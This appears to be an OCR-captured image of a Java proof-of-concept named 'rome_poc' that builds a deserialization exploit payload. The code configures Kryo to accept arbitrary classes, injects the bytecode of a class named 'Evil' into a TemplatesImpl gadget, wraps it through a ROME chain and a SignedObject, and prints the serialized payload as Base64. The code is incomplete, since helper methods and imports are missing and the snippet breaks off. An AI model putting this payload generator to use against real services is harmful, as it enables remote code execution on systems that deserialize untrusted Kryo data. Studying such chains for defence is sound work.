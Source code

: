 ```java
import java.util.Base64;
import java.util.HashMap;

public class rome_poc {
    public static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static void main(String[] args) throws Exception {
        Kryo kryo = new Kryo();
        String raw = "{\"polish\":\"true\",\"RegistrationRequired\":false,\"InstantiatorStrategy\": \"org.objenesis.strategy.StdInstantiatorStrategy\"}";

        JSONObject serializeConfig = new JSONObject(raw);
        if (serializeConfig.has("polish") && serializeConfig.getBoolean("polish")) {
            Method[] var3 = kryo.getClass().getDeclaredMethods();
            int var4 = var3.length;
            for(int var5 = 0; var5 < var4; ++var5) {
                Method setMethod = var3[var5];
                if (setMethod.getName().startsWith("set")) {
                    try {
                        Object p1 = serializeConfig.get(setMethod.getName().substring(3));
                        if (!setMethod.getParameterTypes()[0].isPrimitive()) {
                            try {
                                p1 = Class.forName((String)p1).newInstance();
                                setMethod.invoke(kryo, p1);
                            } catch (Exception var9) {
                                var9.printStackTrace();
                            }
                        } else {
                            setMethod.invoke(kryo, p1);
                        }
                    } catch (Exception var10) {
                    }
                }
            }
        }

        byte[] bytes=ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        Output output = new Output(bos);
        kryo.writeClassAndObject(output, hashMap2);
        output.close();
        System.out.println(Base64.getEncoder().encodeToString(bos.toByteArray()));

```